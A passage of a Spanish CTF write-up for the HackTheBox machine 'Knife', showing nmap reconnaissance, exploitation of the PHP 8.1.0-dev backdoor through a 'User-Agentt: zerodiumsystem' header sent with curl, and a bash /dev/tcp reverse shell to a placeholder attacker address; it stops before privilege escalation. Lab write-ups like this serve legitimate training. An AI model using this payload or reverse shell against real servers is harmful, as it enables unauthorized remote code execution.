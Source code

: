 Knife es una máquina linux de nivel fácil, creada por [MrKN16H7](https://app.hackthebox.eu/users/98767), en la que vamos a explotar un bug de PHP para conseguir una RCE
y ejecutar un binario como root para convertirnos en él.

![imagen](https://user-images.githubusercontent.com/71317374/131216908-df335eaa-0496-43e5-bc76-2d77ec7be9f9.png)

Según los seres vivos que hay por HackTheBox, la máquina es así:

![imagen](https://user-images.githubusercontent.com/71317374/131216886-9c9c8b8e-6fef-4467-914f-d108e367b3d5.png)

Muy CTF(y es así)

1 - [Reconocimiento inicial](#recon)
2 - [Reconocimiento profundo](#deeprecon)
3 - [Explotación](#exploit)

# [Reconocimiento inicial] {#recon}

```bash
# Nmap 7.92 scan initiated Fri Aug 27 20:20:39 2021 as: nmap -p- --open --min-rate 3000 -sS -Pn -n -v 10.10.10.242 -oG ports -oN ports.nmap
Nmap scan report for 10.10.10.242
Host is up (0.30s latency).
Not shown: 51068 closed tcp ports (reset), 14465 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Read data files from: /usr/bin/../share/nmap
# Nmap done at Fri Aug 27 20:21:14 2021 -- 1 IP address (1 host up) scanned in 34.80 seconds
```

### Pequeña explicación de los parámetros de nmap
* -p-: Escanea todos los puertos.
* --open: Solo muestra los que están abiertos.
* --min-rate: Envía un mínimo de paquetes por segundo para que vaya más rápido, con un número muy alto, como 10000, puede dar falsos positivos o negativos. 
* -sS: TCP SYN Port Scan, agiliza un poco el escaneo ya que no espera a que se complete el [Three-Way Handshake](https://networksigma.com/tcp-3-way-handshake/).
* -Pn: Deshabilita el descubrimiento de host mediante pings a la máquina para comprobar si está activa.
* -n: Deshabilita la resolución DNS
* -v: Muestra los puertos a medida que los descubre
* -oG: Guarda el escaneo de nmap en diferentes formatos, -oG lo guarda en formato grepeable, para luego usar la [función extractPorts de s4vitar](https://pastebin.com/tYpwpauW)
* -oN: Guarda el escaneo como aparece por consola.

Los puertos abiertos son el 22, para obtener una shell segura(SSH), y 80, que hostea un servidor HTTP.

# [Reconocimiento profundo] {deeprecon}

Ahora que tenemos los puertos abiertos de la máquina, vamos a enumerarlos(de forma básica) y a detectar la versión y servicio que corren.

```bash
❯ nmap -sCV -p22,80 10.10.10.242 -oN targeted
Starting Nmap 7.92 ( https://nmap.org ) at 2021-08-28 15:47 CEST
Nmap scan report for 10.10.10.242
Host is up (0.049s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.69 seconds
```

# Explotación {#exploit}

Si vamos a la página web, lo primero que encontramos es esto, un servidor Apache con PHP 8.1:

![imagen](https://user-images.githubusercontent.com/71317374/131220276-fec35a9e-4b46-4692-b37f-6d8bef6caf25.png)

Si buscamos exploits para la versión de Apache que corre no encontramos nada, en cambio, si buscamos exploits para la versión de PHP que corre, encontramos uno muy interesante que nos permite ejecutar código mediante la cabecera `User-Agentt: zerodiumsystem("[comando]");` en la petición.

> An early release of PHP, the PHP 8.1.0-dev version was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header. 

https://flast101.github.io/php-8.1.0-dev-backdoor-rce/

Esto se puede hacer de tres formas: con un script automatizado para ello, con cURL mediante el parámetro -H o interceptando la petición con BurpSuite y añadiendo esta cabecera.

### Explotación con cURL

cURL tiene el parámetro -H, mediante el cual le puedes asignar más cabeceras a tu petición si son necesarias, entonces si le añadimos la cabecera `User-Agentt: zerodiumsystem("[comando]");` podríamos ejecutar comandos a nivel de sistema en la máquina. El comando sería así:
 ```bash
 ❯ curl -s -H 'User-Agentt: zerodiumsystem("whoami");' 10.10.10.242 | grep -i doctype -B 1 | grep -v -i doctype
 ```
 Le he añadido grep para ver únicamente el resultado del comando, que se encuentra al principio del código de la página web.
 
 ### Explotación con BurpSuite
 
 Con BurpSuite hay que interceptar la petición hacia la página web, y modificarla con la misma cabecera de antes. Es recomendable pasar la petición al Repeater con Ctrl + R para poder modificarla como quieras y sin tener que recargar la página cada vez que vayas a ejecutar el comando. 
 
 ### Conseguir una Reverse Shell
 
 Ahora solo habría que ejecutar la Reverse Shell de siempre, si no la sabes es:
 
 ```bash
 bash -i &> /dev/tcp/tuip/puertoEnElQueTienesNC 0&>1
 ```
